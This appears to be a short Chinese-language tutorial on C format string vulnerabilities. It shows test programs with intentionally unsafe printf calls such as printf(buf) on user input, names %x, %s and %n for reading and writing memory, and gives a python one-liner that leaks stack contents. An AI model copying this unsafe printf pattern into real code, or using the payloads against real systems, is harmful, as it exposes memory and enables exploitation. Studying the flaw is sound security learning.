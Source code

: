 ## 测试
### 代码
```c
#include <stdio.h>
int main(int argc,char** argv)
{
        printf("argc: %d\n",argc);
        for(int i = 0;i < argc;i++)
        {
                printf("argv[%d]: %s",i,argv[i]);
        }
        printf("argc: \n",argc);//more arguments
        printf("%08x %08x %08x %08x");//fewer arguments
        printf(argv[1]);
        printf("\n");
        return 0;
}
```
### 运行
```
$ ./print %08x
argc: 2
argv[0]: ./print
argv[1]: %08x
argc: 
00000002 ffe7b329 0804853b 00000002
00000002
```

## 漏洞利用
### 读取数据
%x,%d,%s
### 写入数据
%n

## 读取数据
### 代码
```c
include <stdio.h>
#include <stdlib.h>

int main()
{
        char buf[100];
        fgets(buf, 100, stdin);
        printf(buf);
        printf("\n");
        return 0;
}

```
### 运行
```
lometsj@ubuntu:~/format$ python -c "print '%x'*49" | ./print2
64f7eff5a0f7ddd6bbff9d978eff9d988ce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825a7825f7eff3dcff9d97f00f7d65637f7eff000f7eff0000f7d656371ff9d9884ff9d988c000f7eff000f7f4ec04f7f4e0000
```